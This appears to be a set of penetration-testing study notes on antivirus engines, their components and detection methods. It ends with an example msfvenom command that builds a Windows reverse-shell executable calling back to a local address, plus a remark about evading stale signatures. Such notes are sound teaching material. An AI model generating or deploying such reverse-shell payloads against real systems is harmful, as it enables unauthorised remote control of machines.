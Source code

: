 ```yaml
---
tags:
  - metasploit
  - msfvenom
---
```

Antivirus (AV): 
- prevent, detect, remove malicious software
- typically includes additional protections like IDS/IPS, firewall, website scanners, etc.

## AV engines and components

Modern AV is fueled by signature updates fetched from the vendor's signature database residing on the Internet. Those signature definitions are stored in the local AV signature database, which feeds the more specific engines.

Components:
- File engine
- Memory engine
- Network engine
- Disassembler
- Emulator/Sandbox
- Browser plugin
- Machine learning engine

Events are ranked as:
- Benign
- Malicious
- Unknown

## Detection methods

- Signature-based
	- a restricted-list technology
	- filesystem is scanned for known malware signatures
	- a signature can be a hash of the file itself or a set of multiple patterns, such as specific binary values and strings belonging to a specific malware
	- pitfall: changing a single bit of a file would change its hash completely, evading signature-based detection
- Heuristic-based
	- search for various patterns and program calls that are considered malicious
	- achieved by stepping through the instruction set of a binary file or by attempting to disassemble the machine code and ultimately decompile and analyze the source code
- Behavioural
	- dynamically analyzes the behavior of a binary file
	- achieved by executing the file in question in an emulated environment and searching for behaviors or actions that are considered malicious
- Machine learning
	- uses ML algorithms to detect unknown threats by collecting and analyzing additional metadata

### Example: Metasploit payload

> When generating Metasploit payloads, it is best practice run the latest version of Kali, as Metasploit gets frequently updated and may evade stale AV signatures.

Generate a TCP reverse shell payload:
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f exe > binary.exe`

The resulting payload is detected by many AV products on VirusTotal as malicious

